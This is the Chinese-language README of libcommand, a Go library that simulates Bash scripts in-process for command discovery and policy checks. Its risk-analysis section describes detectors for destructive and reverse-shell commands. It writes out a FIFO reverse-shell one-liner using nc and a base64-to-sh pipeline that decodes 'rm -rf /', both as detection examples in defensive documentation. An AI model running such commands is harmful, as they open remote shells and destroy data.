







# libcommand

[English](README.md) | 简体中文

`libcommand` 是一个面向 Go 的进程内 Bash 路径模拟器。它能够解析 Bash、
建模受支持的 Shell 状态、在值无法确定时探索可达结果，并将展开后的命令分发给
调用方提供的 Handler。

模拟器不会启动宿主机进程，也不会读写宿主机文件系统。它适用于命令发现、策略
评估、测试和执行过程可视化等不应直接运行原始脚本的场景。

> [!IMPORTANT]
> `libcommand` 实现的是实用的 Bash 子集，而不是完整的 Bash，也不是操作系统
> 沙箱。注册的 Handler 属于应用代码，仍然可以产生真实的外部副作用。

## 核心能力

| 能力 | 说明 |
| --- | --- |
| 隔离执行 | Shell 变量、流、函数、选项和文件均保存在当前模拟的独立状态中。 |
| 明确的命令边界 | 通过精确命令名和 `"*"` fallback 将展开后的调用映射到 Go Handler；任何命令都不会回退到宿主机执行。 |
| 保守的不确定性建模 | 未知参数和进程状态以类型化 unresolved 数据继续传播，不会被伪造成具体字符串。 |
| 可达路径探索 | 当控制流依赖未知状态时，在共享执行步数预算内探索代表性的成功与失败路径。 |
| 嵌套 Shell 执行 | `eval`、`source`、`bash -c`、`sh` 和自定义 Handler 共用同一套解析器与执行器。 |
| 有界物化 | 每次模拟的执行步数和逻辑保留状态均支持配置上限。 |
| 可选 Trace | 可输出运行事件、路径分叉、逻辑内存和状态快照，供调试器与可视化工具使用。 |
| 配置可复用 | 构建后的 `Simulator` 不可变，可并发处理彼此隔离的模拟请求。 |

## 环境要求与安装

- Go 1.26 或更高版本
- `mvdan.cc/sh/v3` 由 Go Modules 解析

项目当前在 `dev` 分支开发。首个正式版本发布前，请显式安装该分支：

```bash
go get github.com/nullptrpanic/libcommand@dev
```

生产构建应固定到具体 Tag 或 Commit，以保证依赖可复现。

## 快速开始

注册应用需要观测或实现的外部命令，构建不可变模拟器，然后提交 Bash 源码：

```go
package main

import (
	"context"
	"fmt"
	"time"

	"github.com/nullptrpanic/libcommand"
)

func main() {
	simulator := libcommand.NewBuilder().
		Limits(&libcommand.Limits{
			MaxExecutionSteps: 50_000,
			MaxMemoryBytes:    4 << 20,
		}).
		Command("lark-cli", func(
			_ context.Context,
			shell *libcommand.CommandContext,
			invocation *libcommand.Invocation,
		) (*libcommand.CommandResult, error) {
			fmt.Printf("%s %#v\n", invocation.Name, invocation.Args)
			if err := shell.State().SetVariable("LAST_COMMAND", invocation.Name); err != nil {
				return nil, err
			}
			return shell.Result(shell.Output().
				Stdout(libcommand.Resolved([]byte("accepted\n"))).
				Build()), nil
		}).
		Build()

	ctx, cancel := context.WithTimeout(context.Background(), 30*time.Second)
	defer cancel()

	err := simulator.Simulate(ctx, &libcommand.SimulationRequest{
		Source: `lark-cli im messages-send --text "$MESSAGE"`,
		Env:    map[string]string{"MESSAGE": "hello"},
		Args:   []string{"first-argument"},
		Stdin:  []byte("input\n"),
	})
	if err != nil {
		panic(err)
	}
}
```

`SimulationRequest.Stdin` 是有限的具体输入流，nil 或空切片都表示立即 EOF。
`SimulationRequest.Files` 可向隔离的虚拟文件系统预置普通文件，相对路径按
`WorkingDir` 解析并自动创建所需父目录。处理重定向时，读取缺失文件会在 VFS 中
将其物化为确定的空文件；写入缺失文件会自动创建所需父目录。`cat` 读取缺失的
文件操作数时，则将 stdout、stderr 和退出状态标记为 unresolved。已知的文件与
目录冲突仍然返回错误。`User` 初始化模拟的当前用户，空值默认
为 `"user"`；它不会自动生成
或改写 `USER`、`LOGNAME`、`HOME`、`UID`、`EUID`。
脚本中暴露的 `$0` 固定为 `command.sh`。

## 架构

### 整体结构

公共包负责配置和 API 契约；`internal/runtime` 负责 Shell 语法与执行机制；
`internal/builtin` 负责所有 call-like 命令的具体语义。Builtin 与调用方命令
因此能够共用同一条分发链路，同时不向外暴露运行时路径构造。



| 区域 | 职责 |
| --- | --- |
| 公共包 | Builder、Limits、模拟请求、Handler、类型化 Invocation、状态变更 API 和 Trace API。 |
| `internal/runtime` | 解析器集成、展开、赋值、函数、运算符、控制流、管道、重定向、虚拟 IO、路径分叉、取消和预算。 |
| `internal/builtin` | `echo`、`cd`、`env`、`eval`、`source`、`bash` 等确定性命令和 Wrapper 的实现。 |
| `internal/materialize` | 防溢出的逻辑字节统计和默认物化上限。 |
| `cmd/libcommand` | 输出模拟得到的 `lark-cli` 调用的示例 CLI。 |
| Playground | 用于 AST 与实时运行视图的浏览器 UI、Web Worker 和 WebAssembly Runtime。 |

### 单次模拟生命周期

每次 `Simulate` 调用都会创建新的执行上下文和独立状态。`Simulator` 中的命令表
和 Limits 可以复用；不同调用之间不会共享请求数据或路径状态。



执行器会在执行单元之间检查 `context.Context`。Handler 同步运行，必须在
Context 被取消后及时返回；进程内 Handler 无法由模拟器强制中断。

## 路径探索与 unresolved 数据

默认 `"*"` 命令返回 unresolved 结果。未知 stdout、stderr 和退出状态会经过
受支持的赋值、命令替换、管道、重定向、虚拟文件和 Builtin 继续传播。只有当
控制流必须读取未知结果时，执行器才创建分支。

例如：

```bash
feature-gate && deploy blue
deploy common
```



公共后缀会在每条保留路径上分别执行，因此同一个 Handler 可能被调用多次。
单次模拟内的回调顺序是确定的，但回调不会被自动去重，也不具备事务语义。

未知数据不会以伪造的具体值跨越应用命令边界：

- `ArgumentString` 保存具体参数；
- `ArgumentUnresolved` 表示整个参数的值无法确定；
- `Invocation.Unresolved.Name` 表示展开后的命令名无法确定，此时 fallback
  调用中的 `Invocation.Name` 为空；
- `Invocation.Unresolved.Env` 列出值无法确定的已导出变量名；
- `Invocation.Unresolved.Dir` 和 `Invocation.Unresolved.Stdin` 分别标记工作
  目录和输入流是否无法确定。

未知命令名会交给 `"*"` fallback；未知重定向目标通过 `Redirect.Unresolved`
暴露，并建模为抽象输入或输出端点。动态源码和数组索引仍会在必须使用具体值时
返回带源码位置的 unresolved semantics 错误。

## 命令分发与覆盖规则

`Build` 首先复制默认注册表，再覆盖调用方注册项；同名命令以最后一次注册为准。
精确查找始终先于 `"*"` fallback，任何查找结果都不会启动宿主机进程。



`command` 和 `builtin` Wrapper 会绕过 Shell 函数，并通过同一份精确定义表进行
分发。调用方可以覆盖任意默认 call 命令，包括 `echo`、`cd`、`eval`、
`source`、`exec`、`command` 和 `builtin`。四个由执行器管理的控制转移不能
被 Builder 注册项替换。

`Middleware` 会按注册顺序追加装饰器。`Build` 在合并默认实现、调用方覆盖和
fallback 后再应用这条链，因此所有最终选中的命令定义都经过同一机制。最先注册的
Middleware 位于最外层，执行顺序为
`A before -> B before -> command -> B after -> A after`。Shell 函数和由执行器
管理的控制转移不属于命令注册表，因此不会进入这条链。

注册 Middleware 后，每个命令调用都会成为需要保留的可观察候选。如果未知条件或
依赖宿主机状态的控制操作原本会遮蔽某次调用，模拟器会保留正常路径，同时增加一条
经过 Middleware 的抽象可能路径。无法构造 Invocation 的确定性语法或展开错误仍然
按错误处理。

```go
builder.Middleware(func(next libcommand.Command) libcommand.Command {
	return func(
		ctx context.Context,
		shell *libcommand.CommandContext,
		invocation *libcommand.Invocation,
	) (*libcommand.CommandResult, error) {
		fmt.Printf("command: %s\n", invocation.Name)
		return next(ctx, shell, invocation)
	}
})
```

由 `eval`、`source`、Shell Wrapper 和命令替换产生的调用仍会回到同一注册表，
因此也会经过 Middleware。Middleware 可以检查或拒绝调用、调整结果，或者继续
调用 `next`（最多一次）；其并发与生命周期约束和普通 `Command` 相同。

默认注册表包含常用 Shell Builtin 和确定性的进程内辅助命令：

| 分类 | 命令 |
| --- | --- |
| 基础命令 | `:`, `true`, `false`, `echo`, `printf`, `pwd`, `cd`, `wait` |
| 输入与变量 | `read`, `mapfile`, `readarray`, `set`, `shift`, `unset`, `getopts`, `shopt` |
| 声明 | `declare`, `local`, `export`, `readonly`, `typeset`, `let` |
| 条件与 Trap | `test`, `[`, `trap`, `type` |
| 分发与动态执行 | `command`, `builtin`, `env`, `exec`, `eval`, `source`, `.`, `bash`, `sh` |
| 外部执行 Wrapper | `sudo`, `setsid`, `nohup`, `timeout`, `nice`, `stdbuf`, `taskset`, `ionice`, `chrt` |
| 模拟工具 | 基于虚拟文件的 `cat` 和 `rm`、整数 `seq`、基于 stdin 的 `base64` 和逐行 `rev` |

`cat` 和 `rm` 只访问隔离的虚拟文件系统，绝不会读取或修改宿主文件；调用方注册
可以覆盖任意默认命令。

执行 Wrapper 会解析受支持的命令行形式，并把内层可执行命令重新交给同一注册表
和 Middleware 链；它们不会模拟操作系统调度、会话、凭据、信号或真实超时。
`sudo` 默认在内层操作期间把模拟用户改为 `root`，也支持 `-u`/`--user` 指定用户；
内层产生的每条结果路径返回后都会恢复调用方用户。调用方可以覆盖这些默认实现。

## 嵌套与动态 Shell 执行

Builtin 和调用方 Handler 通过 `CommandContext` 返回声明式操作。回调本身不会
递归驱动执行器，也不构造路径结果。回调返回后，Runtime 再通过常规解析、分发、
路径分叉和预算逻辑应用该操作。



不同操作具有明确且不同的状态边界：

| 操作 | 执行状态 | 可观察结果 |
| --- | --- | --- |
| `Evaluate` / `eval` | 当前 Shell 状态 | 变量和文件系统变更保留在各结果路径上；动态 AST 节点会加入候选发现和 Trace。 |
| `Source` / `source` / `.` | 当前 Shell 状态，加 Source 深度和可选的位置参数作用域 | Source 内的变更会保留；临时位置参数会恢复；`return` 结束被 Source 的内容；仅从虚拟文件读取。 |
| `RunShell` / `bash` / `sh` | 根据已导出变量、目录、stdin、请求选项和虚拟文件系统副本创建的新子 Shell | 子 Shell 局部变量不会泄漏；输出、状态、已消费输入、Issue 和最终虚拟文件系统会合并回父路径。 |
| `Invoke` | 当前状态，不查找 Shell 函数 | 选中的精确命令通过标准 Invocation 契约执行。 |
| `Replace` / `exec` | 当前状态 | 替换成功后终止当前执行路径。 |

自定义命令可以执行生成的 Bash，而不需要接触内部路径类型：

```go
builder.Command("evaluate", func(
	_ context.Context,
	shell *libcommand.CommandContext,
	_ *libcommand.Invocation,
) (*libcommand.CommandResult, error) {
	return shell.Evaluate(`record generated`, "generated", 1), nil
})
```

## State 与命令契约

每个命令都会收到只读 `Invocation` 和仅在当前回调期间有效的
`CommandContext`。`State()` 提供受支持的状态变更能力，但不会暴露 Runtime
的路径构造：

- `Directory` 和 `ChangeDirectory`；
- `User`，以及命令作用域的 `CommandContext.ChangeUser`；改变后的用户会被嵌套的
  声明式执行继承，并在所有返回路径上恢复；
- `PathID` 和 `Parent`，分别表示当前执行路径 ID 及其分叉来源的冻结状态快照；
  Trace 上报同一组 ID；
- `Variable`、`SetVariable` 和 `UnsetVariable`；
- `Redirects`，包含当前调用的重定向目标和操作符；虚拟文件目标为绝对路径，
  未知目标会设置 `Redirect.Unresolved`；
- `CommandContext` 暴露的虚拟文件系统、输入、选项、查找、算术和嵌套执行操作。
- `Output` 与 `Result` 用于一个命令结果；Output builder 默认创建已确定的空
  stdout/stderr 和退出码 0；
- `ForkState`、`NewResult` 与 `AddOutput` 用于同时存在多个“状态 + 输出”结果的命令。

状态变更只作用于当前路径，采用 Copy-on-Write，并受逻辑物化预算检查。父状态快照
不可修改，其保留状态也计入该预算。命令返回后不得继续持有 `CommandContext` 或
`State` 指针。`Input` 和 `ConsumeInput`
返回的字节切片归调用方所有，`SetInput` 也会复制传入数据，因此命令无法通过共享
缓冲区修改其他保留路径。

返回值语义是明确的：

| 返回值 | 含义 |
| --- | --- |
| `command.Result(command.Output()...Build())`，nil Error | 将一个输出应用到当前 State。 |
| 通过 `AddOutput` 填充的 Result，nil Error | 为每个 Output 及其显式绑定的 State 创建一条运行路径。 |
| 包含 `Unresolved(...)` 的 Output | 保留代表值，同时将对应维度标记为无法确定。 |
| nil Result，nil Error | 放弃处理本次调用，使用 unresolved-command 行为。 |
| 空 Result，nil Error | 与 nil Result 相同，不会删除当前执行路径。 |
| 非 nil Error | 中止模拟并透传错误。 |
| `CommandStop` | 成功终止全部活动和待执行路径。 |

多结果命令应为每个可能结果各调用一次 `ForkState`，只修改这些子 State，然后通过
`result.AddOutput(child, output)` 逐一添加。普通单结果命令直接修改当前 State 并调用
`Result`，无需克隆。命令返回后不得再修改 Output。

Handler Panic 会被转换为模拟错误。回调返回后，Runtime 会检查返回流和 Output
State 是否超过预算，每增加一个 Output 也会消耗一个执行步骤；已经发生的外部
副作用无法回滚。

### 内置风险分析

可选的 `analysis` 包按照可执行命令提供彼此独立的 `Command`，调用方只注册需要
启用的检测：

```go
simulator := libcommand.NewBuilder().
	Command("rm", analysis.RM).
	Command("poweroff", analysis.Poweroff).
	Command("nc", analysis.NC).
	Command("curl", analysis.Curl).
	Build()

err := simulator.Simulate(ctx, request)
if errors.Is(err, analysis.ErrRiskDetected) {
	// 拒绝请求。
}
```

目前提供 `rm`/`find` 根目录级删除、常见电源控制命令、`mkfs*`/`wipefs`/`dd`
块设备写入、把网络通道连接到 Shell 的 netcat 或 `socat` 模式、输入连接到具体
`/dev/tcp` 或 `/dev/udp` 端点的交互式 Shell，以及同时建立 Socket、接管进程流并
启动 Shell 的高置信 Python 或 Perl Payload。`Curl` 会识别通过上传、Data、JSON
或 Multipart Form 选项读取本地文件或 stdin 的上传；普通请求、下载和内联请求数据
不会命中。普通文件写入、其他单独的网络客户端或网络重定向和本地解释器程序
不会被归类为风险。命中时返回
`*analysis.DetectionError`，其 `Type` 为
`reverse_shell`、`destructive_operation`、`sensitive_information_disclosure` 或
`data_exfiltration`，并由 `Simulate` 原样向上游传递；无法确定或包含 unresolved
数据时按安全处理，并保留 unresolved-command 行为。直接注册按照展开后的命令名
精确匹配，如需检测 `/bin/rm`，调用方应另外注册该名字。检测命令表和名称 Lookup
策略由 Middleware 调用方持有，`analysis` 包不会全局启用任何命令。
调用方通过 `analysis.WithSession` 将新建的 `analysis.NewSession` 绑定到每次模拟的
Context 后，可以关联所选择的 `Mkfifo`、`Cat`、`Shell` 和 `NC` 检测器，识别
`mkfifo f; cat f | bash -i | nc host port > f` 这一高置信
FIFO 反弹 Shell；彼此独立的命令或显式替换 stdin 不会建立数据流。Middleware 必须
对每次 Invocation 调用 `analysis.Inspect`，包括 Lookup 未命中的命令，以便无关命令
切断待确认链路。嵌套 Shell 仍会通过正常分发递归检测：只注册 `analysis.RM`，也能
检出 `base64 -d | sh` 解出的 `rm -rf /`。

## 资源模型

每次模拟默认包含两个独立上限：

| Limit | 默认值 | 作用范围 |
| --- | ---: | --- |
| `MaxExecutionSteps` | 10,000 | 动态语句、命令调用、case 模式求值，以及路径探索产生的额外后继。 |
| `MaxMemoryBytes` | 2 MiB | 初始请求和模拟器保留的保守逻辑物化数据。 |



该上限是保守的逻辑数据上限，而不是 Go Heap 或进程 RSS 的精确限制。解析器内部
分配、Go Runtime 开销，以及 Handler 返回前自行产生的分配，无法在同一进程中
被硬限制。处理不可信 Bash 时，应将这些预算和 Context Deadline 与适合部署
环境的进程级隔离组合使用。

## Trace 与 Playground

Trace 默认不启用。`Simulate` 不构建 Trace 索引、不捕获状态快照，也不发送事件。
`SimulateTrace` 同步输出轻量事件；`SimulateTraceWithOptions` 还可以捕获受限的
状态和命令直接输出快照。



Observer 在模拟 Goroutine 上执行，因此缓慢或阻塞的 Observer 会增加 Trace 模式
的延迟。Observer 返回 `false` 会停止后续事件，但不会终止 Shell 执行。
`TraceStatementActivated` 表示一个仍处于外层求值生命周期内的语句再次被控制流
进入；循环从第二轮开始每轮都会发送该事件，客户端无需伪造嵌套的 start/finish
事件即可重放循环头。
`TraceNode.Embedded` 用来标记条件命令、命令替换、管道操作数等父语句内部的求值
细节。它只是一项展示元数据：节点 ID、执行事件和 Shell 行为均不改变，因此 AST
视图可以折叠它，执行视图仍可完整保留。`TraceNode.FlowGroup` 区分同一父节点下
顺序执行的语句体和互斥语句体，供分层布局使用。`TraceNode.FlowCanSkip` 标记无需
进入任何可见语句体即可继续的控制流容器，例如没有 `else` 的 `if` 或零次迭代的
循环。
`FlowCommand`、`FlowFunction`、`FlowGroupExit` 和 `FlowGroupDefault` 分别描述直接
调用、函数声明及 `case` 控制流。这些字段均为展示元数据，不具备执行语义。

浏览器 Playground 将模拟器编译为 WebAssembly，并在一次性 Web Worker 中运行。
它提供独立的 AST 和实时 Runtime 视图、命令注册、路径可视化、执行控制和逻辑
内存快照。

### Playground 动态预览

**实时 Runtime 调用流。** 展开后的命令调用会按实际执行顺序逐个出现。每次调用
都是独立节点；同一个 unresolved 分叉探索出的互斥调用处在同一水平线，当前节点、
画布位置、逻辑内存和节点检查器会随模拟进度同步更新。


**AST 实时执行。** 动图从 AST 视角开始并点击 **Run simulation**。解析得到的拓扑
保持不变，已到达节点按执行顺序逐个高亮，未到达语法始终保留为虚线。父语句
内部的求值细节会被折叠，真实的分支体和循环体仍然展示；`eval` 动态解析出的语法
和 `source` 加载的语法只以实际命令调用出现在 Runtime 中，不会改变初始 AST。
Runtime 转移不会为 AST 动态补节点或边；循环只保留前向静态序列，不绘制迭代
回边或零次执行旁路。


```bash
make playground
./target/playground/playground -addr 127.0.0.1:8080
```

打开 `http://127.0.0.1:8080`。UI 模型、JavaScript Handler、部署边界和图例请
参见 [playground/README.md](playground/README.md)。

## 支持的 Bash 子集

当前子集聚焦常见的编排脚本：

- 标量变量、索引和关联数组、导出变量、位置参数、引用，以及受支持的参数展开、
  算术展开、Brace Expansion 和 Glob；
- 顺序语句、`if`、`case`、`&&`、`||`、取反、Word/Arithmetic `for`、
  `while` 和 `until`；
- 函数、Subshell、命令替换、管道、后台命令，以及不带 Job Operand 的 `wait`；
- 虚拟文件、Here Document、Here String、数字 File Descriptor 重定向、抽象
  `/dev/tcp` 和 `/dev/udp` 端点，以及 Process Substitution；
- `test`、`[`、受支持的 `[[` 表达式、声明、选项、Trap、输入 Builtin、循环控制
  和函数返回；
- `command`、`builtin`、`env`、`exec`、`eval`、基于虚拟文件的 `source`，
  以及包含仅解析和交互选项在内的常见 `bash` 或 `sh` 形式。

支持范围取决于具体行为，而不只是命令名。未支持的选项和语义会返回错误或
unresolved 结果，不会静默调用宿主机实现。

## 已知限制

- 不保证任意 Bash 兼容性；少见 Builtin、选项、Coprocess、Job Operand、
  命名 File Descriptor 分配和特殊重定向形式可能不受支持。
- 嵌入 Python 或其他非 Bash 语言中的命令对 Bash 解析器不可见。
- 命令 stdout 和 stderr 是聚合流，无法重建字节级交错顺序和独立 FD Offset。
- 虚拟文件系统从空的 `/` 开始，永远不会读取宿主机文件系统。缺失的重定向文件
  采用上述 fail-open VFS 语义，但这不表示宿主机上对应文件真实存在或内容为空。
- 与宿主机身份、进程和随机数相关的值会被标为 unresolved；必须使用具体值时
  则返回错误。
- 未知字符串、字段数量和循环长度不会被穷举；执行器使用类型化未知值和代表性路径。
- 对抗性输入场景下，进程内执行不能替代 Container、OS Sandbox 或外部资源限制器。

## 项目结构

```text
.
├── api.go, builder.go, simulator.go   公共 Go API
├── internal/runtime/                 Shell 执行与路径探索
├── internal/builtin/                 统一命令注册表与 Builtin
├── internal/materialize/             逻辑内存统计
├── cmd/libcommand/                   命令发现示例 CLI
├── cmd/playground-wasm/              WebAssembly Bridge 与 Trace Adapter
├── cmd/playground/                   自包含 Playground Server
├── playground/                       浏览器应用
├── examples/simple/                  嵌入脚本的 Go 示例
└── testdata/fuzz/                     持久化 Fuzz Corpus
```

## 构建与验证

将全部可交付命令构建到 `target/`：

```bash
make all
```

| 产物 | 路径 |
| --- | --- |
| 示例 CLI | `target/libcommand/libcommand` |
| 自包含 Playground | `target/playground/playground` |

使用 `make clean` 删除构建产物。

使用当前环境选择且满足 `go.mod` 的 Go Toolchain 执行仓库门禁：

```bash
./verify.sh
```

门禁包括格式检查、测试、`go vet`、Race Detection 和全仓覆盖率检查。单独运行
一个 Fuzz Target 的示例：

```bash
go test -run '^$' -fuzz '^FuzzSimulatorSourceStability$' -fuzztime=10s .
```

## 反馈

请通过 [GitHub Issues](https://github.com/nullptrpanic/libcommand/issues) 提交 Bug
和边界清晰的功能需求。报告应包含能够复现问题的最小 Bash 样本、预期的可达命令
调用，以及使用的 Limits 配置。
